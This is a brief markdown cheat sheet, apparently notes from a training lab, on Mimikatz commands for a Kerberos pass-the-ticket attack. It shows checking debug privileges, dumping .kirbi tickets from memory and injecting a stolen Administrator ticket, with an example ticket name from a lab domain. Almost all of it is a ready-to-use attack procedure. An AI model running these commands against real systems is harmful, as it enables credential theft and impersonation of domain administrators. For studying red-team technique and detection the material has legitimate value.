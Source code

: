 ### check privs
`privilege::debug`
Output '20' means you have admin privs

---

### export .kirbi tickets into current dir
`sekurlsa::tickets /export`

try looking for admin ticket from krbtgt

---

### pass the ticket
`kerberos::ptt <ticket>` 
will cache and impersonate given ticket

example: 
```
kerberos::ptt [0;2a7822]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```

you will now have the ticket in your cache. you can verify in cmd using `klist`



